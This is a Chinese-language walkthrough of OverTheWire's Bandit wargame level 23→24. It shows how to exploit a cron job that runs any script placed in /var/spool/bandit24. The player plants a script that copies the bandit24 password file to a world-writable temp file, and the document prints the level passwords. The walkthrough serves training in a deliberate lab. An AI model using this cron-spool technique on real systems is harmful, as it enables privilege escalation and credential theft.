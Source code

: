 # Bandit Level 23 → Level 24 攻略 📜

## 关卡目标 🎯

本关卡的目标是分析一个以bandit24用户身份运行的cron任务，编写一个脚本来获取下一关的密码，并将该脚本放在`/var/spool/bandit24/`目录中执行。

## 所需知识 📚

### Cron定时任务 ⏱️

与前两关类似，我们需要了解cron定时任务的基本概念和配置。

### Shell脚本编写 📝

我们需要编写一个shell脚本来获取密码。

### 文件权限和目录权限 🔒

我们需要确保我们创建的脚本具有正确的权限，以便bandit24用户可以执行它。

### 临时目录和文件 📂

我们需要使用临时目录来存储我们的脚本和输出文件。

## 详细解题步骤 📝

### 1. 登录游戏服务器 🔐

使用上一关获得的密码登录服务器：

```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
```

密码：`jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n`

### 2. 查看cron任务 👀

首先，我们需要查看与bandit24相关的cron任务：

```bash
cat /etc/cron.d/cronjob_bandit24
```

输出结果应该类似于：

```
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

这表明系统会在每次重启时以及每分钟以bandit24用户的身份执行`/usr/bin/cronjob_bandit24.sh`脚本。

### 3. 查看cron脚本 📜

现在我们需要查看`/usr/bin/cronjob_bandit24.sh`脚本的内容：

```bash
cat /usr/bin/cronjob_bandit24.sh
```

输出结果应该类似于：

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

这个脚本做了以下几件事：
1. 使用`whoami`命令获取当前用户名，并将结果存储在`myname`变量中
2. 切换到`/var/spool/$myname`目录（即`/var/spool/bandit24`）
3. 遍历该目录中的所有文件
4. 对于每个文件，检查其所有者是否为bandit23
5. 如果所有者是bandit23，则执行该文件（最多运行60秒）
6. 执行后删除该文件

这意味着我们可以在`/var/spool/bandit24`目录中创建一个脚本，该脚本将以bandit24用户的身份执行，然后我们可以使用该脚本读取bandit24的密码。

### 4. 创建临时目录 📂

首先，我们需要创建一个临时目录来存储我们的脚本和输出文件：

```bash
mkdir -p /tmp/bandit23_to_24
chmod 777 /tmp/bandit23_to_24
```

### 5. 编写脚本 📝

现在我们需要编写一个脚本，该脚本将读取bandit24的密码并将其写入我们的临时目录：

```bash
nano /tmp/bandit23_to_24/get_password.sh
```

在编辑器中输入以下内容：

```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/bandit23_to_24/password.txt
chmod 666 /tmp/bandit23_to_24/password.txt
```

保存并退出编辑器（在nano中，按Ctrl+O保存，然后按Ctrl+X退出）。

### 6. 设置脚本权限 🔒

我们需要确保脚本具有执行权限，并且所有者是bandit23：

```bash
chmod 777 /tmp/bandit23_to_24/get_password.sh
```

### 7. 复制脚本到cron目录 📋

现在我们需要将脚本复制到`/var/spool/bandit24`目录，以便它被cron任务执行：

```bash
cp /tmp/bandit23_to_24/get_password.sh /var/spool/bandit24/
```

### 8. 等待脚本执行 ⏱️

cron任务每分钟执行一次，所以我们需要等待一段时间（最多一分钟）让脚本执行：

```bash
sleep 60
```

### 9. 查看密码文件 🔑

现在我们可以查看脚本生成的密码文件：

```bash
cat /tmp/bandit23_to_24/password.txt
```

输出结果应该显示bandit24的密码：

```
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

## 命令解释 🔍

- `mkdir -p /tmp/bandit23_to_24`：
  - `mkdir`：创建目录
  - `-p`：如果需要，创建父目录
  - `/tmp/bandit23_to_24`：要创建的目录
- `chmod 777 /tmp/bandit23_to_24`：
  - `chmod`：更改文件权限
  - `777`：设置权限为所有用户可读、可写、可执行
  - `/tmp/bandit23_to_24`：目标目录
- `nano /tmp/bandit23_to_24/get_password.sh`：
  - `nano`：文本编辑器
  - `/tmp/bandit23_to_24/get_password.sh`：要编辑的文件
- `cp /tmp/bandit23_to_24/get_password.sh /var/spool/bandit24/`：
  - `cp`：复制文件
  - `/tmp/bandit23_to_24/get_password.sh`：源文件
  - `/var/spool/bandit24/`：目标目录

## 学习要点总结 📌

1. **Shell脚本编写** - 学习了如何编写简单的shell脚本
2. **文件权限设置** - 了解了如何设置文件和目录的权限
3. **Cron任务利用** - 学习了如何利用cron任务执行特权操作
4. **临时文件和目录** - 了解了如何使用临时文件和目录进行数据传递

## 提示 💡

- 在编写脚本时，确保脚本具有正确的权限，以便目标用户可以执行它
- 使用临时目录时，确保设置适当的权限，以便可以读取和写入文件
- 在实际系统中，应该避免设置过于宽松的权限（如777），这可能导致安全风险
- cron任务是自动化系统管理的强大工具，但也可能被滥用，因此应该谨慎配置

## 下一步 ⏭️

使用获得的密码登录到Level 24：

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

密码：`UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

## 相关资源 🔗

- [Bash脚本编程指南](./resource/level_24/Bash脚本编程指南.md)
- [Linux文件权限详解](./resource/level_24/Linux文件权限详解.md)
- [Cron定时任务安全最佳实践](./resource/level_24/Cron定时任务安全最佳实践.md)
